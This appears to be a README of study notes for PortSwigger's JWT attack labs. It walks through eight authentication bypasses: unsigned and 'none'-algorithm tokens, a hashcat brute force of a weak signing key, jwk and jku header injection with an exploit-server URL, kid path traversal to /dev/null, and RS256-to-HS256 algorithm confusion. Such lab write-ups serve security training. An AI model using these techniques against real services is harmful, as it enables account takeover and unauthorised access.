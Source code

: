 # [JWT attacks](https://portswigger.net/web-security/jwt)

## Lab

- apprentice:
  - [1. JWT authentication bypass via unverified signature](./lab/1.%20JWT%20authentication%20bypass%20via%20unverified%20signat.md)
  - [2. JWT authentication bypass via flawed signature](./lab/2.%20JWT%20authentication%20bypass%20via%20flawed%20signature.md)
- practitioner:
  - [3. JWT authentication bypass via weak signing key](./lab/3.%20JWT%20authentication%20bypass%20via%20weak%20signing%20key.md)
  - [4. JWT authentication bypass via jwk header inject](./lab/4.%20JWT%20authentication%20bypass%20via%20jwk%20header%20inject.md)
  - [5. JWT authentication bypass via jku header inject](./lab/5.%20JWT%20authentication%20bypass%20via%20jku%20header%20inject.md)
  - [6. JWT authentication bypass via kid header path traversal](./lab/6.%20JWT%20authentication%20bypass%20via%20kid%20header%20path%20traversal.md)
- expert:
  - [7. JWT authentication bypass via algorithm confusion](./lab/7.%20JWT%20authentication%20bypass%20via%20algorithm%20confusion.md)
  - [8. JWT authentication bypass via algorithm confusion with no exposed key](./lab/8.%20JWT%20authentication%20bypass%20via%20algorithm%20confusion%20with%20no%20exposed%20key.md)

## Detect JWT

use burpsuite's extension called jwt editor, in HTTP history, any request that contains jwt will be green:
![detect.png](./img/detect.png)

## Exploit

1. server do not verify signature:

    - catch a request to account page contains jwt
    - use burp's jwt editor
    - directly edit jwt's body part
    - send to server

    - [lab](./lab/1.%20JWT%20authentication%20bypass%20via%20unverified%20signat.md)

2. server accept none alg:

    - catch a request to account page contains jwt
    - use burp's jwt editor
    - choose "attack" -> "none" Signing algorithm
    - send to server

    - [lab](./lab/2.%20JWT%20authentication%20bypass%20via%20flawed%20signature.md)

3. weak symmetric key:
    - catch a jwt
    - use hashcat to bruteforce:

    ```powershell
    kali@kali:/mnt/d/Downloads/hashcat-5.1.0/hashcat-5.1.0$ ./hashcat64.exe -a 0 -m 16500 eyJraWQiOiJiNWM2MmM5ZS05YWZkLTQ0ODItODkwYy0zZTM2Y2YyNmUyOTAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY3MzMzMTcwNH0.uogTd4jaZZ5TxcovgRcegXA2gq208kLTgXxv_Gh3DZ0 ./jwt.secrets.list

    kali@kali:/mnt/d/Downloads/hashcat-5.1.0/hashcat-5.1.0$ ./hashcat64.exe -a 0 -m 16500 eyJraWQiOiJiNWM2MmM5ZS05YWZkLTQ0ODItODkwYy0zZTM2Y2YyNmUyOTAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY3MzMzMTcwNH0.uogTd4jaZZ5TxcovgRcegXA2gq208kLTgXxv_Gh3DZ0 ./jwt.secrets.list --show

    eyJraWQiOiJiNWM2MmM5ZS05YWZkLTQ0ODItODkwYy0zZTM2Y2YyNmUyOTAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV                                                                                                           V4cCI6MTY3MzMzMTcwNH0.uogTd4jaZZ5TxcovgRcegXA2gq208kLTgXxv_Gh3DZ0:secret1
    ```

    - base64 decode key
    - generate new symmetric key using jwt editor, replace "k" with b64decoded key
    - edit jwt's body, sign with new generated key
    - send

    - [lab](./lab/3.%20JWT%20authentication%20bypass%20via%20weak%20signing%20key.md)

4. server trusted on the "jwk" header, which contains key and can be added or modified on client-side:
    - catch a request to account page contains jwt
    - use burp's jwt editor
    - generate new RSA key
    - copy key to header:

    ```json
    {
        "kid": "2b02f383-bc32-45ff-8067-8079b70b90e8",
        "typ": "JWT",
        "alg": "RS256",
        "jwk": {
            "p": "-m6TGEZy1OEuMUc9D8ws1FTtAyaD2OVpGBDauMOIVmbRKFkkaHfAR-qk7A1szo-VtW4mZ3vkD-9bGRNQ7ttEFhaPz1iArG0gveJTcdliLoaGxL9aVEWlXF6wJtKcn9HPaPxQzMWmrEOr1g4yb8yUmrWZeCiGATSYgjKvVEwULuE",
            ...
            "e": "AQAB",
            "kid": "2b02f383-bc32-45ff-8067-8079b70b90e8",
            ...
        }
    }
    ```

    - edit jwt's body
    - sign jwt, choose "update alg, type, kid" to automatically update the kid in the header to be the same as the kid in the newly created rsa key.
    - send

    - [lab](./lab/4.%20JWT%20authentication%20bypass%20via%20jwk%20header%20inject.md)

5. server trusted on the "jwu" header, which contains url to key and can be added or modified on client-side:
    - catch a request to account page contains jwt
    - generate new rsa key using burp's jwt editor
    - save newly created rsa key to exploit server (portswigger lab) or pipedream
    - update "jku":

    ```json
    {
        "jku": "https://exploit-0ad2000e040deae3c19c3e2201550079.exploit-server.net/exploit",
        "kid": "5bf6df89-b3ec-45f5-817c-44136956a075",
        "typ": "JWT",
        "alg": "RS256"
    }
    ```

    - update jwt's body
    - sign jwt, choose "update alg, type, kid" to automatically update the kid in the header to be the same as the kid in the newly created rsa key.
    - send

    - [lab](./lab/5.%20JWT%20authentication%20bypass%20via%20jku%20header%20inject.md)

6. "kid" is vulnerable to path traversal
    - catch a request to account page contains jwt
    - generate new symmetric key using burp's jwt editor, replace "k" with base64_encode('\x00') = "AA=="
    - edit jwt's body
    - try different "kid":
      - "../../../../dev/null"
      - "../../../../../dev/null"
      - ...
    - sign
    - send

7. algorithm confusion with exposed key:
    - get public rsa key from `/jwks.json` or `/.well-known/jwks.json`
    - generate new rsa key, paste the JWK obtained from server, save.
    - select copy public key as pem
    - then base64 encode
    - generate new symmetric key, replace "k" with base64 encoded value
    - edit jwt's body
    - change "alg" from RS256 to HS256
    - sign with symmetric key
    - send

    - [lab](./lab/7.%20JWT%20authentication%20bypass%20via%20algorithm%20confusion.md)

8. algorithm confusion with no exposed key:
    - try to get 2 different jwt
    - we can calculate public key:

    ```bash
    docker run --rm -it portswigger/sig2n <token1> <token2>
    ```

    - same as 7
    - [lab](./lab/8.%20JWT%20authentication%20bypass%20via%20algorithm%20confusion%20with%20no%20exposed%20key.md)
